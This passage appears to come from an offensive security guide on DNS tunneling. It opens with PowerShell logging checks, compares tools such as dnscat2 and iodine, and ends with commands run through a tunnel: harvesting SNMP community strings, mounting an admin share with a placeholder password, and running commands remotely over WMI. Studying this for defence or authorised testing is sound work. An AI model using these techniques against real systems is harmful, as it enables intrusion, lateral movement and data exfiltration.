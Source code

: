### **PowerShell Logging**
```powershell
# Enable PowerShell logging
Get-WinEvent -LogName Microsoft-Windows-PowerShell/Operational

# Check for suspicious module imports
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-PowerShell/Operational'; ID=4103}

# Monitor network connections from PowerShell
Get-NetTCPConnection | Where-Object {$_.OwningProcess -eq (Get-Process powershell).Id}
```

---

## **11. Alternative DNS Tunneling Tools**

### **DNS Tunneling Tool Comparison**

| **Tool** | **Language** | **Features** | **Stealth** | **Performance** |
|----------|--------------|--------------|-------------|-----------------|
| **dnscat2** | Ruby/C | Full C2, encryption | High | Medium |
| **iodine** | C | IP over DNS | Medium | High |
| **dns2tcp** | C | TCP over DNS | Medium | High |
| **DNSStager** | PowerShell | Payload staging | High | Low |
| **dnscat2-powershell** | PowerShell | Windows-friendly | High | Low |

### **When to Use DNS Tunneling**
✅ **Restrictive firewall environments**  
✅ **Limited outbound connectivity**  
✅ **Need for stealth communication**  
✅ **Data exfiltration requirements**  
✅ **Long-term persistent access**  

### **When NOT to Use DNS Tunneling**
❌ **High bandwidth requirements**  
❌ **Real-time communication needs**  
❌ **DNS monitoring in place**  
❌ **Performance-critical operations**  
❌ **Short-term tactical access**  

---

## **12. Integration with Other Techniques**

### **DNS Tunneling + Lateral Movement**
```powershell
# Use DNS tunnel for credential harvesting
exec (client) 1> reg query HKLM\SYSTEM\CurrentControlSet\Services\SNMP\Parameters\ValidCommunities

# Pivot through DNS tunnel
exec (client) 1> net use \\172.16.5.19\C$ /user:domain\admin password123

# Execute remote commands
exec (client) 1> wmic /node:172.16.5.19 process call create "cmd.exe /c whoami"
```
